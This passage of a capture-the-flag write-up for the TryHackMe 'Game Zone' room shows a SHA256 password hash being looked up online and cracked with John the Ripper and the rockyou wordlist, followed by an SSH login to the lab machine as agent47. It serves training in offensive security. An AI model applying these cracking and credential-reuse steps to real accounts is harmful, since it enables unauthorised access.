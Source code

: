 First result looks good, let's put our hash in and see if they can decrypt it:

![gamezone-result](/assets/images/2021-02-07-23-06-59.png)

Excellent, it's one that's been seen before so we have our password.

## Task 4

If you're following the room guide then you could have used JohnTheRipper instead. First save found username and hash to a file:

```text
root@kali:/home/kali/thm/gamezone# cat hash.txt
agent47:ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
```

Then use the rockyou wordlist against it:

```text
root@kali:/home/kali/thm/gamezone# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<HIDDEN>    (agent47)
1g 0:00:00:00 DONE (2021-02-08 22:14) 3.030g/s 8837Kp/s 8837Kc/s 8837KC/s vimivi..veluca
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
```

You now have the dehashed password which let's you answer a question on Task 4.

We have a username and password, let's try to ssh on to the box:

```text
root@kali:/home/kali/thm/gamezone# ssh agent47@10.10.42.137
agent47@10.10.42.137's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)
Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
agent47@gamezone:~$
```
